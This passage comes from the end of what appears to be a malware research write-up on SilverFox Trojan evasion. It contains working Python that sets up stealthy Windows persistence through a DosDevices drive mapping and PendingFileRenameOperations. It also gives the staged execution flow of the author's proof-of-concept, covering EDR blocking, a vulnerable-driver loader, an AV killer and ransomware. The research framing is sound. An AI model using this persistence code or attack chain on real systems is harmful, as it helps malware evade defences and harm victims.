        raise OSError(f"SHGetFolderPathW failed with HRESULT {hr:#x}")
    target_path = buf.value

    key_path = r"SYSTEM\CurrentControlSet\Control\Session Manager\DOS Devices"
    access = winreg.KEY_SET_VALUE | winreg.KEY_WOW64_64KEY
    with winreg.CreateKeyEx(winreg.HKEY_LOCAL_MACHINE, key_path, 0, access) as k:
        winreg.SetValueEx(k, drive, 0, winreg.REG_SZ, "\\??\\" + target_path)

def queue_move_to_startup(p: Path, drive_label: str) -> None:
    """Add PendingFileRenameOperations delayed move operation"""
    if not isinstance(p, Path):
        p = Path(p)
    src_abs = p.resolve(strict=False)
    
    d = (drive_label[0].upper() + ":")
    if not ('A' <= d[0] <= 'Z'):
        raise ValueError("drive_label must start with A–Z")

    # Construct source and destination paths for PendingFileRenameOperations
    # Note: Destination path uses our mapped virtual drive letter
    src = "\\??\\" + str(src_abs)
    dst = "\\??\\" + f"{d}\\Startup\\{p.name}"

    key_path = r"SYSTEM\CurrentControlSet\Control\Session Manager"
    access = winreg.KEY_SET_VALUE | winreg.KEY_QUERY_VALUE | winreg.KEY_WOW64_64KEY
    with winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, key_path, 0, access) as k:
        try:
            existing, vtype = winreg.QueryValueEx(k, "PendingFileRenameOperations")
            if vtype != winreg.REG_MULTI_SZ:
                existing = []
        except FileNotFoundError:
            existing = []

        new_list = list(existing) + [src, dst]
        winreg.SetValueEx(k, "PendingFileRenameOperations", 0, winreg.REG_MULTI_SZ, new_list)
```

## Summary

The evolution of evasion techniques demonstrated by the SilverFox Trojan in 2025 marks that the investment of black market groups in endpoint confrontation has reached a quasi-APT level. From using native system mechanisms like WFP and WDAC to "borrow a knife to kill" and disable security software, to mining obscure RPC interfaces to bypass Hooks and load drivers, to using BYOVD technology to directly counter EDR at the kernel layer through vulnerable drivers, these methods all show the attacker's profound understanding of the underlying mechanisms of the Windows operating system. It is particularly noteworthy that SilverFox disguises attack behaviors as legitimate system management operations (such as configuring firewall rules, application control policies, registry file operations, etc.). This "Living off the Land" approach greatly increases the difficulty of detection, and traditional defense means based on signatures or single behaviors are no longer effective.

> For the Blue Team, this means not only focusing on file-level threats but also strengthening monitoring of system configuration changes, abnormal driver loading, and abnormal behaviors of legitimate processes. Attack and defense confrontation is a never-ending game. In-depth study of the implementation details of these frontier samples is the only way to improve the resilience of the defense system.
{: .prompt-info }

## Appendix: Kafan Security Forum Sample Links

To verify the feasibility of the above technologies, I created a series of Proof of Concept (POC) samples and published them on the Kafan Security Forum for research and exchange. Here are the links to the relevant posts:

*   [Self-made SilverFox-like POC 1](https://bbs.kafan.cn/thread-2285537-1-1.html)
*   [Self-made SilverFox-like POC 2](https://bbs.kafan.cn/thread-2285585-1-1.html)
*   [Self-made SilverFox-like POC 3](https://bbs.kafan.cn/thread-2285726-1-1.html)
*   [Self-made SilverFox-like POC 4](https://bbs.kafan.cn/thread-2285972-1-1.html)

Among them, **Sample 4** integrates multiple evasion techniques mentioned in this article. Its complete execution flow is as follows:

```python
ST0_DECODE_PAYLOADS =           "Stage 0 - Decode payloads"
ST1_PREPARE_RDI =               "Stage 1 - Prepare RDI"
ST2_ADD_WFP_FILTERS =           "Stage 2 - Add WFP blocking filters - FwpmFilterAdd0"
ST3_LOAD_BYOVD_RPC =            "Stage 3 - Load BYOVD - CreateSvcRpc"
ST3_LOAD_BYOVD_RPC_SIGFLIP =    "Stage 3 - Load BYOVD - CreateSvcRpc (SigFlip)"
ST3_LOAD_BYOVD_API =            "Stage 3 - Load BYOVD - CreateServiceW"
ST3_LOAD_BYOVD_API_SIGFLIP =    "Stage 3 - Load BYOVD - CreateServiceW (SigFlip)"
ST4_RUN_AV_KILLER =             "Stage 4 - Run AV killer - ZwTerminateProcess"
ST5_INVISIBLE_AUTORUN =         "Stage 5 - Add Autorun - FileAssociations + DosDevices Redirect + PendingFileRenameOperations"
ST6_RUN_RANSOMWARE =            "Stage 6 - Run Ransomware"
ST7_ADD_WDAC_POLICY_P7B =       "Stage 7 - Add WDAC blocking policies - Direct"
ST7_ADD_WDAC_POLICY_CITOOL =    "Stage 7 - Add WDAC blocking policies - CiTool"
ST8_REBOOT =                    "Stage 8 - Reboot"
```

## References

*   [PythonMemoryModule](https://github.com/naksyn/PythonMemoryModule)
*   [EDRSilencer](https://github.com/netero1010/EDRSilencer)
*   [LOLDrivers](https://www.loldrivers.io/)
*   [Check Point Report](https://research.checkpoint.com/2025/silver-fox-apt-vulnerable-drivers/)
*   [WatchDogKiller](https://github.com/j3h4ck/WatchDogKiller)
*   [Researching an APT attack and weaponizing it](https://medium.com/@jehadbudagga/researching-an-apt-attack-and-weaponizing-it-56daabee11c9)
*   [gSigFlip](https://github.com/akkuman/gSigFlip)
*   [SspiUacBypass](https://github.com/antonioCoco/SspiUacBypass/blob/main/CreateSvcRpc.cpp)
*   [Huorong Security Report](https://www.huorong.cn/document/tech/vir_report/1846)
*   [Weaponizing WDAC - Killing the Dreams of EDR](https://beierle.win/2024-12-20-Weaponizing-WDAC-Killing-the-Dreams-of-EDR/)
*   [App Control Policy Wizard](https://webapp-wdac-wizard.azurewebsites.net)
*   [Tencent Security Analysis Report](https://www.freebuf.com/articles/vuls/438775.html)
